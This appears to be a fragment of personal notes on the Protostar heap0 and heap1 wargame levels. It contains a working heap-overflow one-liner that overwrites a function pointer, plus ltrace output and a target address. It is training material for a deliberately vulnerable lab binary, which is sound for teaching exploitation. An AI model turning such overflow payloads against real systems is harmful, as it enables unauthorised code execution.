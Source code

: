 https://sh3llc0d3r.com/protostar-exploit-exercises-heap0/

/opt/protostar/bin/heap0 $(python -c 'print "A"*72 + "\x64\x84\x04\x08")

## heap1

```
$ ltrace ./heap1
__libc_start_main(0x80484b9, 1, 0xbffff894, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                                                           = 0x0804a008
malloc(8)                                                                           = 0x0804a018
malloc(8)                                                                           = 0x0804a028
malloc(8)                                                                           = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

win function address: `0x08048494`